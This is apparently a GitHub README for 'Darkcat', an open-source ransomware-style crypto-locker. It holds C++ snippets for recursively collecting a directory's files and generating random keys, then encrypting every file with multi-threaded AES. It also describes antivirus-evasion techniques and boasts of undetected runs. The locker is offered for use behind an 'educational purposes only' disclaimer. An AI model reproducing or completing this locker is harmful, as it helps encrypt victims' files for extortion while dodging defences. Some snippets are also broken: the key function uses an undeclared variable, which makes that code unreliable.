

**DISCLAIMER**: This tool is intended for educational purposes only.
The author assumes no responsibility or liability for any damages
caused by the execution of this algorithm, use at your own risk.

# 74E>64G Project - A Strong Prototype Locker
Darkcat is an Open Source Crypto-locker directed at an audience with an interest in the field of Cyber Security. The locker is similar to how very obnoxious Ransomewares operate using 2-Layer Key Encryption with the intent of making it almost impossible to recover any key from memory even during the event of Encryption. It utilizes Multi-threaded 128-bit AES Encryption which makes it very fast with the cost of leaving somewhat of a footprint on the CPU for modern activity based Antivirus Softwares to pick up. My Kaspersky didn't detect any suspicious activity in most runs, especially ones that didn't involve lots of files, with that being said the algorithm logs keys on the console but doesn't save any, so use at your own risk.
```c
/*   -0-    ,    *     o    .     *    .    o    .  -O-   '  *  . o
 *  .  '     ____  ____  ____  _  __ ____  ____  _____  .  '  ,  *
 *     .  * /  _ \/  _ \/  __\/ |/ //   _\/  _ \/__ __\  *  . |  '
 *  *     . | | \|| / \||  \/||   / |  /  | / \|  / \  '  ,  o  '
 *  .  '    | |_/|| |-|||    /|   \ |  \_ | |-||  | | ' |   *   .
 *  '  *  . \____/\_/ \|\_/\_\\_|\_\\____/\_/ \|  \_/ *     .    o
 *  *    '  ,     '     .    -0-    .    *    .  ' |   ,   *    '
 * Alexander
 * Toepfer 2020
 */
```


## Summary
  1. AV Evasion techniques used to bypass Engines.
  2. Fetching files recursively from a given root directory.
  3. Generation of 128-bit Keys used for Encryption.
  4. Multi-threaded Encryption applied on sorted vector of files.

## AV Evasion techniques
The techniques used for AV Engine Evasion in Darkcat are Behaviour Obfuscation, Data Encryption and Sandbox Detection which make it fairly successful in dealing with most Engines that analyze the binary or execute it, but it is still far from perfect, as some elaborate AV Softwares using analysis based on Machine learning still detect malicious activity, which makes this implementation not FUD. In the following Code Snippets all of the above mentioned techniques will be left out, as otherwise the Source Code would be unreadable.

## Fetching files from directory
```c
    std::string path = "C:\\Path\\To\\Testfolder";
    /* First loop identifying files */
    std::vector< file > files;
    for( const auto& entry : std::filesystem::recursive_directory_iterator( path ) ) {
        if( std::filesystem::is_regular_file( entry.path() ) ) {
            /* Ignore any keyfiles in the directory */
            if( entry.path().filename() == keyfilestr )
                continue;
            /* Ignore certain files in certain modes */
            if( ( ( entry.path().extension() == fileExtension ) && encrypt ) ||
                ( ( entry.path().extension() != fileExtension ) && !encrypt ) )
                continue;
            file f( entry.path(), std::filesystem::file_size( entry.path() ) );
            /* Ignore files that are included already */
            if( std::find( files.begin(), files.end(), f ) != files.end() )
                continue;
            files.push_back( f );
        }
    }
    /* Sort by size with file.operator>() */
    std::sort( files.begin(), files.end() );
```
You could also do this with Boost instead of \<filesystem\> but it comes down to preference. You will also need to implement a file class for this implementation to work to store file information and for sorting, but that's not really a requirement, feel free to use an array of filesystem::path if that fits your needs.

## 128-bit Key Generation
```c
std::string randomString( size_t length ) {
    /* Function returning the charset used */
    const auto chset = charset();
    std::default_random_engine rng( std::random_device{}() );
    /* Uniformly distributed values on closed interval */
    std::uniform_int_distribution<> dist( 0, chset.size() - 1 );
    /* Function returning a random character from charset */
    auto randchar = [ chset, &dist, &rng ]() { return chset[ dist( rng ) ]; };
    std::generate_n( str.begin(), length, randchar );
    return str;
}
std::string key1 = randomString( 16 ), key2 = randomString( 16 );
```
You could also use rand() with modulo here to just generate n-indices for your charset but i prefer this solution even though seeding the random generator is a complete nightmare and the standard makes no guarantees about its quality, efficiency or repeatability between implementations.

## Multi-threaded Encryption
```c
/* Second loop alter files */
std::vector< std::thread > threads;
for( const auto& f : files ) {
    if( encrypt ) {
	    std::thread t( fileEncrypt,  f.path, key, iv );
		threads.emplace_back( std::move( t ) );
	}
	else ...
}
/* Wait for processes to finish */
for( int i = 0; i < threads.size(); ++i ) {
    threads[ i ].join();
}

/* Crypto++ encryption of std::string */
std::string stringEncrypt( std::string plain,
                           CryptoPP::byte key[ CryptoPP::AES::DEFAULT_KEYLENGTH ],
                           CryptoPP::byte iv[ CryptoPP::AES::BLOCKSIZE ] ) {
    std::string cipher;
    CryptoPP::AES::Encryption aesEncryption( key, CryptoPP::AES::DEFAULT_KEYLENGTH );
    CryptoPP::CBC_Mode_ExternalCipher::Encryption cbcEncryption( aesEncryption, iv );
    CryptoPP::StreamTransformationFilter stfEncryptor( cbcEncryption,
					               new CryptoPP::StringSink( cipher ) );
    stfEncryptor.Put( reinterpret_cast< const unsigned char* >( plain.c_str() ),
					  plain.length() );
    stfEncryptor.MessageEnd();
    return cipher;
}
```
For AES-128 I didn't make my own implementation here because the solution needs to be somewhat fast and reliable, but I can see making an adaptation could help with more AV Evasion in the long run so it's very tempting.

## Virustotal



## Copyright and license
Code and documentation copyright 2021 Alexander Töpfer. Code released under the MIT License
